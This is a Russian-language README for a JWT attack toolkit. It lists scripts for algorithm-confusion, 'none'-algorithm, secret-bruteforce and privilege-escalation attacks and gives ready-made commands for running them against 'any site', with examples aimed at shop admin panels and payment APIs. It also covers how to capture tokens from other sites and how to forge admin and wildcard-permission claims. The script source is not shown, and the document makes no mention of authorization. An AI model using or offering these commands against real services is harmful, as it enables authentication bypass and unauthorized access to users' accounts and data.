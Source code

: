 # jwt_complete
Просто подставляйте любые JWT токены и URL - инструменты автоматически адаптируются под алгоритм и структуру токена

Универсальность инструментов:

✅ Поддерживаемые алгоритмы JWT:
•  RS256, RS384, RS512 (RSA)
•  HS256, HS384, HS512 (HMAC) 
•  ES256, ES384, ES512 (ECDSA)
•  PS256, PS384, PS512 (RSA-PSS)
•  none (отсутствие подписи)

✅ Типы атак работают с любыми JWT:
•  Algorithm Confusion - работает с любым RS256 → HS256
•  None Algorithm Bypass - универсальная атака
•  Secret Bruteforce - для любых HMAC токенов
•  Privilege Escalation - модифицирует любые payload

🔧 Как адаптировать:

1. Замена публичного ключа (если есть доступ к другому):
python
# В файлах найдите эту строку и замените на новый публичный ключ:
public_key_n = "НОВЫЙ_ПУБЛИЧНЫЙ_КЛЮЧ_В_BASE64"

2. Настройка payload для конкретного сайта:
bash
# Анализируем структуру токена целевого сайта
python3 jwt_analyzer.py 'TARGET_SITE_JWT_TOKEN'

# Используем интерактивный режим для кастомизации
python3 jwt_bypass_interactive.py 'TARGET_SITE_JWT_TOKEN'


3. Автоматическое тестирование на любом сайте:
bash
python3 jwt_complete_test.py 'ANY_JWT_TOKEN' 'https://target-site.com/api/endpoint'
python3 jwt_advanced_bypass.py 'ANY_JWT_TOKEN' 'https://target-site.com/admin'

🎯 Реальные примеры использования:

Пример 1: Тестирование e-commerce сайта
bash
# Получаем JWT из авторизации на сайте
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..."

# Комплексное тестирование
python3 jwt_complete_test.py "$JWT_TOKEN" 'https://shop.example.com/admin/orders'

# Проверяем админские эндпоинты
./jwt_test.sh 'https://shop.example.com/admin/users' "$BYPASS_TOKEN"

Пример 2: API микросервисов
bash
# Тестируем разные сервисы с одним токеном
python3 jwt_quick_bypass.py "$JWT_TOKEN" admin

# Тестируем на разных эндпоинтах
curl -H "Authorization: Bearer $ADMIN_TOKEN" https://api.service1.com/users
curl -H "Authorization: Bearer $ADMIN_TOKEN" https://api.service2.com/payments
curl -H "Authorization: Bearer $ADMIN_TOKEN" https://api.service3.com/analytics
Пример 3: Single Page Application (SPA)
bash
# Перехватываем JWT из localStorage/cookies браузера
JWT_FROM_BROWSER="eyJ..."

# Анализируем и создаем атаки
python3 jwt_analyzer.py "$JWT_FROM_BROWSER"
python3 jwt_advanced_bypass.py "$JWT_FROM_BROWSER" 'https://app.target.com/api/admin'
🔍 Получение JWT токенов с других сайтов:

Методы извлечения:
1. Browser DevTools → Application → Storage → JWT в localStorage/sessionStorage
2. Burp Suite/OWASP ZAP → перехват HTTP заголовков Authorization
3. Browser Network Tab → поиск Bearer токенов в запросах
4. Cookies → поиск JWT в cookie values
5. URL параметры → некоторые сайты передают JWT в GET параметрах

Быстрая проверка формата JWT:
bash
# JWT всегда имеет формат: xxxxx.yyyyy.zzzzz
echo "$POTENTIAL_JWT" | grep -E '^[A-Za-z0-9_-]+\.[A-Za-z0-9_-]+\.[A-Za-z0-9_-]*$'

🛡️ Адаптация под специфику сайтов:
Кастомизация payload полей:
python
# Модифицируйте jwt_quick_bypass.py для специфических полей
payload['department'] = 'IT'           # Корпоративные системы
payload['subscription'] = 'premium'    # SaaS платформы  
payload['permissions'] = ['*']         # Системы с детальными правами
payload['tenant_id'] = 'admin'         # Multi-tenant приложения
Настройка заголовков для специфических API:
bash
# В jwt_test.sh добавьте специфические заголовки
curl -H "Authorization: Bearer $TOKEN" \
     -H "X-API-Key: xyz" \
     -H "X-Tenant: admin" \
     "$TARGET_URL"

🚀 Готовые команды для быстрого старта:
bash
# Универсальная команда для любого сайта
python3 jwt_complete_test.py 'PASTE_ANY_JWT_HERE' 'https://any-target-site.com/api'

# Быстрый тест топ-5 атак
python3 jwt_quick_bypass.py 'ANY_JWT' admin

# Полное автоматизированное тестирование  
python3 jwt_advanced_bypass.py 'ANY_JWT' 'https://target.com/endpoint'
